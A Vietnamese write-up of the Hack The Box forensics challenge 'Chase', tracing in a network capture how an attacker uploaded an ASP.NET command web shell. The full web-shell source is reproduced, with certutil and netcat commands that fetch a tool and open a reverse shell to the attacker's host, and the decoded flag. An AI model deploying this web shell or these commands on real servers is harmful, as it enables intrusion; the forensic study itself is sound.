

> [!NOTE]
> - Mức độ: Dễ 
> - Loại: Forensics
> - Url: [Chase](https://app.hackthebox.com/challenges/Chase)
> - Tình huống: Một trong các máy chủ web của chúng tôi đã kích hoạt cảnh báo từ phần mềm diệt virus (AV), nhưng không quản trị viên hệ thống nào xác nhận rằng họ đã đăng nhập vào máy chủ đó. Chúng tôi đã thực hiện thu thập dữ liệu mạng (network capture) trước khi tắt máy chủ để tạo bản sao (clone) ổ đĩa. Bạn có thể xem qua tệp PCAP này để kiểm tra xem có vấn đề gì bất thường không?

> - File capture packet chỉ gồm các gói tcp, http, dns




> - Phân tích các gói tin http thu được 1 luồng trao đổi giữa địa chỉ IP `22.22.22.7` và máy chủ `22.22.22.5`
> - `/upload.aspx` chứa form yêu cầu nhập `author key` và cho phép tải lên 1 file 

```http
GET /upload.aspx HTTP/1.1
Host: 22.22.22.5
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1


HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/7.5
X-AspNet-Version: 2.0.50727
X-Powered-By: ASP.NET
Date: Sun, 01 Nov 2020 17:20:26 GMT
Content-Length: 591

<html>
<head>
<title>filesystembrowser</title>
<style type="text/css"><!--
body,table,p,pre,form input,form select {
 font-family: "Lucida Console", monospace;
 font-size: 88%;
}
-->
</style></head>
<body>
<form enctype="multipart/form-data" action="?operation=upload" method="post"><br>Auth Key: <input type="text" name="authKey"><br><br>Please specify a file: <input type="file" name="file"></br><div><input type="submit" value="Send"></div></form></body>
</html>


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
```

> - `author key` là `admin` và tải lên file `cmd.aspx` là 1 ASP.Net Web shell  để thực thi mã
> - [Web shell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx) đây có thể nguyên nhân AV cảnh báo 
> - Web shell nhận 2 tham số 1 là đường dẫn đến chương trình 2 là tham số đầu vào của chương trình 

```aspx
<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      

Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            

  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub

</script>

<html>
<body>    
<form runat="server">        
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
```

```http
POST /upload.aspx?operation=upload HTTP/1.1
Host: 22.22.22.5
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------240279915540934710361858528148
Content-Length: 1899
Origin: http://22.22.22.5
Connection: keep-alive
Referer: http://22.22.22.5/upload.aspx
Upgrade-Insecure-Requests: 1

-----------------------------240279915540934710361858528148
Content-Disposition: form-data; name="authKey"

admin
-----------------------------240279915540934710361858528148
Content-Disposition: form-data; name="file"; filename="cmd.aspx"
Content-Type: application/octet-stream

<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">      

Sub RunCmd(Src As Object, E As EventArgs)            
  Dim myProcess As New Process()            
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)            
  myProcessStartInfo.UseShellExecute = false            
  myProcessStartInfo.RedirectStandardOutput = true            
  myProcess.StartInfo = myProcessStartInfo            
  myProcessStartInfo.Arguments=xcmd.text            
  myProcess.Start()            

  Dim myStreamReader As StreamReader = myProcess.StandardOutput            
  Dim myString As String = myStreamReader.Readtoend()            
  myProcess.Close()            
  mystring=replace(mystring,"<","&lt;")            
  mystring=replace(mystring,">","&gt;")            
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"    
End Sub

</script>

<html>
<body>    
<form runat="server">        
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>        
<asp:TextBox id="xpath" runat="server" Width="300px">c:\windows\system32\cmd.exe</asp:TextBox>        
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>        
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>        
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>        
<p><asp:Label id="result" runat="server"></asp:Label>       
</form>
</body>
</html>
-----------------------------240279915540934710361858528148--

HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/7.5
X-AspNet-Version: 2.0.50727
X-Powered-By: ASP.NET
Date: Sun, 01 Nov 2020 17:20:35 GMT
Content-Length: 360

<html>
<head>
<title>filesystembrowser</title>
<style type="text/css"><!--
body,table,p,pre,form input,form select {
 font-family: "Lucida Console", monospace;
 font-size: 88%;
}
-->
</style></head>
<body>
File uploaded</body>
</html>


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">


GET /cmd.aspx HTTP/1.1
Host: 22.22.22.5
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1


HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/7.5
X-AspNet-Version: 2.0.50727
X-Powered-By: ASP.NET
Date: Sun, 01 Nov 2020 17:20:42 GMT
Content-Length: 917

<html>
<body>    
<form name="ctl00" method="post" action="cmd.aspx" id="ctl00">
<div>
<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="/wEPDwUKLTk5MjkzMTA5MWRkwVojPOuktGOWqG0pwsyOK2JElGI=" />
</div>

<div>

	<input type="hidden" name="__EVENTVALIDATION" id="__EVENTVALIDATION" value="/wEWBAKI2YrhDgL71d7YCAKRuYD5CALT/r7ABAPkkpTQLNd7HWr8RlrYcnI0Hcmr" />
</div>        
<p><span id="L_p" style="display:inline-block;width:80px;">Program</span>        
<input name="xpath" type="text" value="c:\windows\system32\cmd.exe" id="xpath" style="width:300px;" />        
<p><span id="L_a" style="display:inline-block;width:80px;">Arguments</span>        
<input name="xcmd" type="text" value="/c net user" id="xcmd" style="width:300px;" />        
<p><input type="submit" name="Button" value="Run" id="Button" style="width:100px;" />        
<p><span id="result"></span>       
</form>
</body>
</html>
```

> - Đã gửi yêu cầu thực thi các lệnh 
> - Thực hiện tải xuống nc64.exe từ máy tấn công 
> - Thiết lập 1 reverse shell kết nối đến cổng 4444 của kẻ tấn công  

```
- Tải xuống netcat 64 bit từ máy tấn công 
__VIEWSTATE=/wEPDwUKLTk5MjkzMTA5MWRkwVojPOuktGOWqG0pwsyOK2JElGI=&__EVENTVALIDATION=/wEWBAKI2YrhDgL71d7YCAKRuYD5CALT/r7ABAPkkpTQLNd7HWr8RlrYcnI0Hcmr&xpath=c:\windows\system32\cmd.exe&xcmd=/c certutil -urlcache -split -f http://22.22.22.7/nc64.exe c:\users\public\nc.exe&Button=Run

- Tạo 1 reverse shell từ máy nạn nhân đến máy tấn công 
__VIEWSTATE=/wEPDwUKLTk5MjkzMTA5MQ9kFgICAQ9kFgICCw8PFgIeBFRleHQFaw0KPHByZT4qKioqICBPbmxpbmUgICoqKioNCiAgMDAwMCAgLi4uDQogIGIwZDgNCkNlcnRVdGlsOiAtVVJMQ2FjaGUgY29tbWFuZCBjb21wbGV0ZWQgc3VjY2Vzc2Z1bGx5Lg0KPC9wcmU+ZGRk8LGROcfmxzGiIEGxxlI6IHeRdyA=&__EVENTVALIDATION=/wEWBAKQ5ISyAgL71d7YCAKRuYD5CALT/r7ABJjJbr/u6tvYS9iG9x2jvQ+MU8CJ&xpath=c:\windows\system32\cmd.exe&xcmd=/c c:\users\public\nc.exe 22.22.22.7 4444 -e cmd.exe&Button=Run
```

```http
POST /cmd.aspx HTTP/1.1
Host: 22.22.22.5
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 313
Origin: http://22.22.22.5
Connection: keep-alive
Referer: http://22.22.22.5/cmd.aspx
Upgrade-Insecure-Requests: 1

__VIEWSTATE=%2FwEPDwUKLTk5MjkzMTA5MWRkwVojPOuktGOWqG0pwsyOK2JElGI%3D&__EVENTVALIDATION=%2FwEWBAKI2YrhDgL71d7YCAKRuYD5CALT%2Fr7ABAPkkpTQLNd7HWr8RlrYcnI0Hcmr&xpath=c%3A%5Cwindows%5Csystem32%5Ccmd.exe&xcmd=%2Fc+certutil+-urlcache+-split+-f+http%3A%2F%2F22.22.22.7%2Fnc64.exe+c%3A%5Cusers%5Cpublic%5Cnc.exe&Button=Run

HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Server: Microsoft-IIS/7.5
X-AspNet-Version: 2.0.50727
X-Powered-By: ASP.NET
Date: Sun, 01 Nov 2020 17:21:42 GMT
Content-Length: 1270


<html>
<body>    
<form name="ctl00" method="post" action="cmd.aspx" id="ctl00">
<div>
<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="/wEPDwUKLTk5MjkzMTA5MQ9kFgICAQ9kFgICCw8PFgIeBFRleHQFaw0KPHByZT4qKioqICBPbmxpbmUgICoqKioNCiAgMDAwMCAgLi4uDQogIGIwZDgNCkNlcnRVdGlsOiAtVVJMQ2FjaGUgY29tbWFuZCBjb21wbGV0ZWQgc3VjY2Vzc2Z1bGx5Lg0KPC9wcmU+ZGRk8LGROcfmxzGiIEGxxlI6IHeRdyA=" />
</div>

<div>

	<input type="hidden" name="__EVENTVALIDATION" id="__EVENTVALIDATION" value="/wEWBAKQ5ISyAgL71d7YCAKRuYD5CALT/r7ABJjJbr/u6tvYS9iG9x2jvQ+MU8CJ" />
</div>        
<p><span id="L_p" style="display:inline-block;width:80px;">Program</span>        
<input name="xpath" type="text" value="c:\windows\system32\cmd.exe" id="xpath" style="width:300px;" />        
<p><span id="L_a" style="display:inline-block;width:80px;">Arguments</span>        
<input name="xcmd" type="text" value="/c certutil -urlcache -split -f http://22.22.22.7/nc64.exe c:\users\public\nc.exe" id="xcmd" style="width:300px;" />        
<p><input type="submit" name="Button" value="Run" id="Button" style="width:100px;" />        
<p><span id="result">
<pre>****  Online  ****
  0000  ...
  b0d8
CertUtil: -URLCache command completed successfully.
</pre></span>       
</form>
</body>
</html>

POST /cmd.aspx HTTP/1.1
Host: 22.22.22.5
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 458
Origin: http://22.22.22.5
Connection: keep-alive
Referer: http://22.22.22.5/cmd.aspx
Upgrade-Insecure-Requests: 1

__VIEWSTATE=%2FwEPDwUKLTk5MjkzMTA5MQ9kFgICAQ9kFgICCw8PFgIeBFRleHQFaw0KPHByZT4qKioqICBPbmxpbmUgICoqKioNCiAgMDAwMCAgLi4uDQogIGIwZDgNCkNlcnRVdGlsOiAtVVJMQ2FjaGUgY29tbWFuZCBjb21wbGV0ZWQgc3VjY2Vzc2Z1bGx5Lg0KPC9wcmU%2BZGRk8LGROcfmxzGiIEGxxlI6IHeRdyA%3D&__EVENTVALIDATION=%2FwEWBAKQ5ISyAgL71d7YCAKRuYD5CALT%2Fr7ABJjJbr%2Fu6tvYS9iG9x2jvQ%2BMU8CJ&xpath=c%3A%5Cwindows%5Csystem32%5Ccmd.exe&xcmd=%2Fc+c%3A%5Cusers%5Cpublic%5Cnc.exe+22.22.22.7+4444+-e+cmd.exe&Button=Run
```

> - Khi đã có được shell trên máy mục tiêu kẻ tấn công thực hiện các lệnh 
> - Trong đó có 4 yêu cầu tải xuống 1 tệp tin từ máy tấn công 2 yêu cầu thành công `JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA.txt` và yêu cầu thành công tải xuống 

```http
GET /JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA.txt HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/6.1
Host: 22.22.22.7


HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.6
Date: Sun, 01 Nov 2020 17:26:13 GMT
Content-type: text/plain
Content-Length: 11
Last-Modified: Sun, 01 Nov 2020 17:24:19 GMT

Hey there!
```

```cmd
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
whoami

whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>
ipconfig

ipconfig

Windows IP Configuration


Ethernet adapter Npcap Loopback Adapter:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::c519:1c29:36a3:3f06%14
   Autoconfiguration IPv4 Address. . : 169.254.63.6
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : localdomain
   Link-local IPv6 Address . . . . . : fe80::a81a:4d42:a317:8ded%11
   IPv4 Address. . . . . . . . . . . : 22.22.22.5
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 22.22.22.2

Tunnel adapter isatap.localdomain:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : localdomain

Tunnel adapter Local Area Connection* 11:

   Connection-specific DNS Suffix  . : localdomain
   IPv6 Address. . . . . . . . . . . : 2002:1616:1605::1616:1605
   Default Gateway . . . . . . . . . : 2002:c058:6301::c058:6301

Tunnel adapter isatap.{FC31ACEF-D362-4FAF-8F11-B50E106CE80F}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

c:\windows\system32\inetsrv>
cd /

cd /

c:\>
powershell -ep bypass -c Invoke-WebRequest -Uri http://22.22.22.7/JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA.txt -OutFile c:\users\public\file.txt

powershell -ep bypass -c Invoke-WebRequest -Uri http://22.22.22.7/JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA.txt -OutFile c:\users\public\file.txt
The term 'Invoke-WebRequest' is not recognized as the name of a cmdlet, functio
n, script file, or operable program. Check the spelling of the name, or if a pa
th was included, verify that the path is correct and try again.
At line:1 char:18
+ Invoke-WebRequest <<<<  -Uri http://22.22.22.7/JBKEE62NIFXF6ODMOUZV6NZTMFGV6U
RQMNMH2IBA.txt -OutFile c:\users\public\file.txt
    + CategoryInfo          : ObjectNotFound: (Invoke-WebRequest:String) [], C 
   ommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
 


c:\>
certutil -urlcache -split -f http://22.22.22.7/JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA.txt c:\users\public\

certutil -urlcache -split -f http://22.22.22.7/JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA.txt c:\users\public\
****  Online  ****
  0000  ...
  000b
CertUtil: -URLCache command FAILED: 0x80070003 (WIN32: 3)
CertUtil: The system cannot find the path specified.

c:\>
```

> - Tên file tải xuống từ máy mục tiêu chính là flag được mã hóa base32 

```
└─$ echo -n "JBKEE62NIFXF6ODMOUZV6NZTMFGV6URQMNMH2IBA" | base32 -d
HTB{MAn_8lu3_73aM_R0cX} 
```